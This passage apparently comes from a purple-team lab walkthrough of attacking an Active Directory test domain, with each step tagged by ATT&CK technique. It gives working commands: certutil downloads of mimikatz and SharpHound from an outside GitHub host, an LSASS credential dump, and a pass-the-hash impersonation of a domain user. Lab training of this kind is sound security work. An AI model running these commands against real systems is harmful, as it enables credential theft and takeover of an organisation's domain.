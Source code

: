 We can transfer the tool using `certutil`

**Step 1.15**
```PowerShell
[ITSERVER:PowerShell] certutil -urlcache -f https://github.com/MihhailSokolov/SecTools/raw/main/mimikatz.exe C:\Temp\m.exe
```
ATT&CK Techniques: `T1105`

And then execute it to dump the credentials from LSASS process

**Step 1.16**
```PowerShell
[ITSERVER:PowerShell] C:\temp\m.exe

[ITSERVER:mimikatz] privilege::debug
[ITSERVER:mimikatz] sekurlsa::logonpasswords
```
ATT&CK Techniques: `T1003.001`

You should be able to see the NTLM hash of `billh` domain user and can now use it move forward with attacking AD.

## Part 2

### Pass the Hash

While still in `mimikatz` we can use that hash of the domain user (`ATTACKRANGE\billh`) in an Pass-the-Hash attack to start a PowerShell with a Kerberos ticket belonging to that user (i.e. impersonate that user).

**Step 2.1**
```PowerShell
[ITSERVER:mimikatz] sekurlsa::pth /user:billh /ntlm:<NTLM-hash> /domain:attackrange /run:powershell
```
ATT&CK Techniques: `T1550.002`

This will spawn a new PowerShell. If you run `whoami` you will still see `PurpleUser`, however, as far as other services are concerned, you are `ATTACKRANGE\billh`.

### Enumerate AD

Now that we are in control of an AD user, let's enumerate the domain and find a way to escalate our privileges to Domain Admin.
Let's use popular tool called `Bloodhound` to gather the data and then visualize it.

We can download the data collector with `certutil` as before

**Step 2.2**
```PowerShell
[ITSERVER:PowerShell] certutil -urlcache -f https://github.com/MihhailSokolov/SecTools/raw/main/SharpHound.exe C:\Temp\sh.exe
```
ATT&CK Techniques: `T1105`

And then run it to collect all data about the domain, its users, computers, groups and their privileges
